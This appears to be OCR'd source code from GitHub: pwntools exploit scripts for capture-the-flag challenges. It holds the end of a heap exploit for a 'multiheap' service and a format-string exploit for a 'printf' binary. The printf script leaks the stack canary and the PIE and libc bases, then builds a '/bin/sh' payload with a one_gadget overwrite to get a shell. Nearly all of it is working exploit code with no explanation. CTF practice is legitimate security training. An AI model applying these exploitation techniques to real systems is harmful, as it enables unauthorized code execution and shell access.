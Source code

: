 ```python
    # one_gadget = 0x10a38c
    # one_gadget = 0x10a398

    pie_addr = u64(data[ : -1] + '\x00' * 2) - 0x205bc8
    log.info('pie addr is : ' + hex(pie_addr))
    payload = p64(heap_addr + 0x12fe0 + 0x20) + p64(0) + p64(0) + p64(0) + p64(one_gadget + libc_addr) * 4
    Read(5, len(payload), payload)

    Free(3)

    # gdb.attach(p)

    p.interactive()

if __name__ == '__main__':
    GameStart('multiheap.chal.ctf.westerns.tokyo', 10001, 0)
```


### printf

```pyhton
from pwn import *

context.log_level = 'debug'

def GameStart(ip, port, debug):
    global p
    if debug == 1:
        # p = process(['./ld-linux.so.2', './printf'], env = {"LD_PRELOAD" : './libc.so.6'})
        p = process('./printf', env = {"LD_PRELOAD" : './libc.so.6'})
    else:
        p = remote(ip, port)

    # gdb.attach(pidof(p)[0])
    raw_input('wait to debug')
    p.recvuntil('name?\n')
    p.sendline('%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x|%llx|%x%x%x%x%x%x%x%x%x|%llx|%llx|%llx|')

    data = p.recvuntil('Do you')
    idx = data.index('|')
    stack_base = int(data[idx + 1 : data.index('|', idx + 1)], 16) - 0x266 -0x10
    idx = data.index('|', idx + 1)
    idx = data.index('|', idx + 1)
    canary = int(data[idx + 1 : data.index('|', idx + 1)], 16)
    idx = data.index('|', idx + 1)
    pie_base = int(data[idx + 1 : data.index('|', idx + 1)], 16)
    idx = data.index('|', idx + 1)
    libc_base = int(data[idx + 1 : data.index('|', idx + 1)], 16) - 0x26b6b

    log.info("stack base is : " + hex(stack_base))
    log.info("canary is : " + hex(canary))
    log.info("pie base is : " + hex(pie_base))
    log.info("libc base is : " + hex(libc_base))

    strlen_got_offest = 0x1E40A8 + libc_base 
    system_offest = 0x52FD0 + libc_base
    one_gadget = 0x106ef8 + libc_base
    offest = stack_base - strlen_got_offest - 23 + 8 - 0x10

    payload = "/bin/sh;%c" + '%c' * 26 + ';' * 5 + p64(one_gadget)[ : 6] + '%%%dc' % offest + '%c' + ';' * 8 + '%c' * (8 * 4 - 26)
```